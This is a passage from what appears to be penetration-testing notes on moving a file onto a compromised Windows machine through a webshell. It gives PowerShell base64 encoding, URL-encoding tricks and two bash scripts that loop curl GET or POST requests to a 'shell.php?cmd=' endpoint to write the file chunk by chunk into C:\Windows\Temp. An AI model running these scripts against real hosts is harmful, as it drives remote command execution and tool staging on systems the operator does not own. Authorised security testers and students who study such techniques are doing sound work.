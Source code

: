 {% hint style="warning" %}
It is recommended to use this method if a firewall is active. It is not stealthy.
{% endhint %}

#### Method via webshell

```shell
pwsh
$fileContent = Get-Content -Raw <FILE>
$bytes = [System.Text.Encoding]::Unicode.GetBytes($fileContent)
$encode = [Convert]::ToBase64String($bytes)
$encode | Out-File <FILE>.b64 # Save the base64 to a file.
```

If we are executing the RCE through a webshell by means of a GET request, then we must encode the "**+**" and "**=**" in URL format. For that, we can do it in 2 ways:

```powershell
# Method #1:
php --interactive
print urlencode("<BASE64>");
# Method #2:
sed -i 's/=/%3D/g' <FILE>.b64
sed -i 's/+/%2b/g' <FILE>.b64
```

If it is by POST, simply in the script that we are going to make next, it will be to add the parameter `--data-urlencode` for `cURL`.

As we are going to do it in parts, we are going to divide it in 80 characters, each line:

```bash
fold <FILE>.b64 > <FILE>.splitb64
```

And now yes, we upload with **curl**, in parts the content of base64 to a file:

{% code title="upload_via_get.sh" %}
```bash
#!/bin/bash

for line in $(cat <FILE>.splitb64); do
	command="echo ${line} >> C:\Windows\Temp\<FILE>.b64"
	curl -s -X GET "http://<IP>/shell.php?cmd=$command"
done
```
{% endcode %}

{% code title="upload_via_post.sh" %}
```bash
#!/bin/bash

for line in $(cat <FILE>.splitb64); do
	command="echo ${line} >> C:\Windows\Temp\<FILE>.b64"
	curl -s -X POST "http://<IP>/shell.php" --data-urlencode "<PARAM>=$command"
done
```
{% endcode %}
